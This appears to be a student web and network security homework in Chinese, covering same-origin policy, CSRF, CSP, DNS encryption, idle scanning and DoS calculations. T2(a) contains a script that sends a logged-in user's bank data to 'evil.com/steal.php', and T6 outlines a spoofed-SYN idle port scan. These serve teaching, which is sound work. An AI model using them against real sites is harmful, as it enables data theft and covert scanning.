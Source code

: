 <script type="text/javascript" src="http://cdn.mathjax.org/mathjax/latest/MathJax.js?config=TeX-AMS-MML_HTMLorMML"></script>
<script type="text/x-mathjax-config">
    MathJax.Hub.Config({ tex2jax: {inlineMath: [['$', '$']]}, messageStyle: "none" });
</script>

# Homework 3
Edited by
牛午甲 PB20111656
潘云石 PB20111657
石磊鑫 PB20111658
孙霄鹍 PB20111659
陈&nbsp;&nbsp;&nbsp;&nbsp;昊 PB20051077

## T1
两个网页是否同源的判断依据是三点：协议、域名和端口。如果仅依据域名判断是否同源，攻击者可以进行如下攻击：考虑一个用户希望通过转到`https://bank.example:8080/login`登录他们的银行帐户。攻击者建立网站`http://bank.example:8080`，如果仅依据域名判断是否同源，网站和用户要登录的网站具有相同的来源。网站`http://bank.example:8080`的唯一目的是打开一个新的窗口，将用户重定向到`https://bank.example:8080/login`。此时，用户位于其银行的合法登录站点，就会输入账号和密码进行登录。但是按照修改后的同源策略，`http://bank.example:8080`和`https://bank.example:8080/login`同源，前者能够直接访问后者的 DOM。因此攻击者只需要向用户的输入字段添加侦听器就可以获取用户名和密码，从而获得对用户银行帐户的访问权。同理，攻击者也可以使用其他端口，进行和上述类似的攻击。

## T2
(a) `evil.com`的页面可以通过嵌入一个`<script>`标签，指向bank.com的`userdata.js`文件，并重新编写`displayData`函数来获取John Doe的数据。当John Doe登录`bank.com`后，访问`evil.com`，`evil.com`便会加载`bank.com/userdata.js`并执行`displayData`，将数据发送给`evil.com`

```html
<script>
function displayData(data) {
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "https://evil.com/steal.php");
    xhr.send(JSON.stringify(data));
}</script>
<script src="//bank.com/userdata.js"> </script>
```

(b) 可以使用CORS来限制只有`bank.com`域名允许访问`userdata.js`文件，从而防止这种攻击。
将`accountInfo.html`的(*)行修改为：

```html
<script src="//bank.com/userdata.js" crossorigin="anonymous"> </script>
```

这样一来，浏览器将启用CORS。另外，服务器在`userdata.js`文件中添加一个响应头，指定`Access-Control-Allow-Origin`为`bank.com`。因此，只有来自`bank.com`的请求才能访问`userdata.js`文件，当`evil.com`试图访问`userdata.js`时会被浏览器拒绝。

## T3
(a) 可以防御DNS欺骗和中间人攻击。通过使用HTTPS加密，可防止未经授权的第三方拦截和篡改DNS查询和响应，从而有助于维护DNS数据的隐私和完整性。
(b) 无法防御DNS缓存投毒攻击。这是因为HTTPS只能保护客户端和DNS解析器之间的通信，而缓存投毒是利用 DNS 服务器软件中的漏洞将虚假的 DNS 记录插入服务器的缓存中，是针对服务器端的操作，和HTTPS无关。
(c) DoH和DoT不能防御DNS被作为DDoS放大器使用。这些协议的是用来保护客户端和DNS解析器之间的连接的。放大攻击利用请求和响应之间的数据包大小差异，即使通信被加密，响应数据包仍然会很大。但是，DoH和DoT对TCP的依赖性可能会使攻击者更难伪造IP地址，这可能使DNS放大攻击难以进行。
(d) DoH和DoT不能防御DNS重绑定攻击。DNS重绑定攻击涉及利用DNS解析的客户端行为，通常与客户端和DNS解析器之间的通信无关，而DoH和DoT提供的加密通信只能保护客户端和DNS解析器之间的通信。


## T4
(a) CSRF 攻击是一种针对依赖用户身份和权限执行操作的网站的网络漏洞。在 CSRF 攻击中，攻击者诱使受害者在目标网站上执行不知情的非法操作。例如，用户登录`https://example.com/login`，在通过了网站对用户的身份验证之后，浏览器中会有一个包含实时会话的 cookie。假设现在用户无意间访问攻击者控制的恶意网站`https://evil.com`，该恶意网站可能包含一段精心设计的 HTML 或 JavaScript 代码，触发对目标网站`https://example.com`的请求，例如更改账户设置、进行购买或提交表单。由于受害者在目标网站上已经通过身份验证，其浏览器会自动将必要的身份验证 cookie 或会话信息包含在请求中。目标网站接收到伪造的请求并进行处理，将其视为受害者发起的合法操作。结果是目标网站在受害者不知情的情况下执行了意外的操作。
(b) 假设令牌基于随机数或加密算法生成，并具有足够的复杂性和熵值，使其难以猜测。因此，攻击者只能直接从服务器获取令牌。由于令牌存储在受害者浏览器的同源页面的DOM中，浏览器的SOP将阻止任何具有不同来源的网站访问包含唯一会话令牌的DOM，攻击者无法从其恶意网站上的脚本中读取或修改该令牌。当用户进行操作时，服务器会验证令牌的有效性，只有在令牌有效且与用户会话关联时才接受请求。由于(a)中的攻击者将无法获得此令牌，因此服务器将拒绝请求。
(c) 将 CSRF 令牌选择为每个 HTTP 响应的随机字符串可以有效防止 CSRF 攻击。通过为每个HTTP响应生成一个全新的随机字符串，CSRF令牌在每个会话中都是唯一的且难以预测。这种随机性使得攻击者极难猜测令牌，因为他们尝试与服务器的任何连接都将需要知道现有会话的令牌才能构造成功的CSRF攻击。
(d) 在给定时间段内，在来自服务器的所有 HTTP 响应中使用相同的随机字符串作为 CSRF 令牌不能有效地防止 CSRF 攻击。这是因为固定的 CSRF 令牌对于每个用户和每个会话都是相同的，攻击者可以利用这个特性构造一个成功的CSRF攻击。例如攻击者先在自己的合法会话下向受害者服务器请求令牌，然后在攻击中使用获得的令牌。根据用户最近与受害者服务器交互的时间以及随机令牌的选择频率，将有一段时间攻击会成功。
(e) 因为SOP策略可以防止攻击者获得服务器提供的令牌。如果SOP策略不存在，攻击者将能够直接获得受害者浏览器的令牌，并将其与恶意请求一起发送，从而通过服务器的验证。

## T5
(a) `script-src 'self'`：这个CSP头部定义网页上执行JavaScript代码的策略，其中`script-src`指定浏览器允许加载和执行JavaScript代码的源，后面跟的`'self'`就是一个源表达式，表示当前页面的源。这个指令的目的是通知浏览器只允许与网站相同来源的脚本运行。它可以防止任何依赖于将脚本注入受害者站点的攻击，如XSS（跨站脚本攻击）。

(b) `frame-ancestors 'none'`：这个CSP头部用于指定嵌入网页到框架或iframe中的策略。`frame-ancestors`后面跟源表达式，用于控制哪些源可以将网页嵌入到框架中。`'none'`是一个源表达式，表示禁止任何来源将网页嵌入到框架中。将源设为`'none'`有助于防止将合法站点嵌入攻击者的站点以帮助其进行网络钓鱼的攻击；还可以防止将网站嵌入到攻击者页面中并捕获用户与网站的交互，从而获取用户私有信息的攻击。

(c) `sandbox 'allow-scripts'`：`sandbox`使网页在沙盒中，对网页的执行进行限制。`'allow-scripts'`表示允许在沙盒环境中执行脚本。这个指令的目的是通知浏览器在沙盒环境中处理响应中的内容，从而能够限制响应的操作，例如防止执行恶意脚本等，以及强制执行同源策略。
  - 当页面具有sandbox CSP头部时，其处于沙盒环境中，由于同源策略限制了JavaScript只能访问来自同一个源的cookie，而在沙箱中的页面无法通过同源策略，因此，它无法访问或读取www.xyz.com的cookie。
  - 当一个页面想要在其中嵌入不受信任的内容时。通过使用该指令，网站可以将嵌入的内容隔离在安全的沙盒环境中。这有助于降低嵌入内容干扰网站功能或访问敏感数据的风险。

## T6
1. a. 在一分钟时间窗口开始时，从主机A向主机P发送ICMP ping请求.
   b. 记录来自主机P的响应包的标识字段值ID1.
   c. 一分钟时间窗口结束后，从主机A向主机P发送另一个ICMP ping请求.
   d. 记录来自主机P的响应的标识字段值ID2.
   e. 如果 ID2 > ID1 + 1, 则说明在一分钟的时间窗口内，主机P已向其他主机发送了数据包.
2. a. 在主机A伪造一个源IP地址为主机P的IP地址的SYN包, 由 A 将这个包发送给 V.
   b. 由于这个 SYN 包的伪造的源IP为主机 P, 当 V 收到这个包时, 如果V的端口 n 开放, V 将会向主机 P 发送一个 SYN / ACK 包; 如果 V 的端口 n 关闭, V 将会向主机 P 发送一个 RST 包.
   c. 这时使用1.的方法观察接下来的一分钟时间窗口内, 主机P是否会向其他主机发送数据包. 如果 V 的端口 n 开放, P 将收到 SYN / ACK, 并向 V 发送 RST 数据包, 可以观察到P向其他主机发送了数据包; 如果 V 的端口 n 关闭, P 将收到RST数据包, 但 P 不会对其响应, 可以观察到 P 没有向其他主机发送数据包.

## T7
1. 由于服务器需要重试5次才将表中请求清除，所以需要等待 $5\times 30=150s$ 才会清除表中的一个请求。所以攻击者至少需要每隔150秒发送一次请求以保持表满，而整个表可以存储256个请求，因此请求的速率为$256/150=1.7次/s$。当每个包的大小为40字节，发送速率为：$1.7\times 40=68bytes/s$。因此带宽为$68bytes/s$。
2. 所需要数据包：
- 0.5Mbps：链路容量为$0.5\times 10^6=5\times 10^5bit/s$,数据包的大小为$500\times 8=4000bit$。因此每秒需要数据包个数为：$5\times 10^5/4000=125$
- 2Mbps：链路容量为$2\times 10^6=2\times 10^6bit/s$,数据包的大小为$500\times 8=4000bit$。因此每秒需要数据包个数为：$2\times 10^6/4000=500$
- 10Mbps：链路容量为$10\times 10^6=10^7bit/s$,数据包的大小为$500\times 8=4000bit$。因此每秒需要数据包个数为：$10^7/4000=2500$
消耗带宽：
- 0.5Mbps：数据包大小为60字节，带宽：$125\times 60=7500bytes/s$。
- 2Mbps：带宽：$500\times 60=30000bytes/s$
- 10Mbps：带宽：$2500\times 60=150000bytes/s$
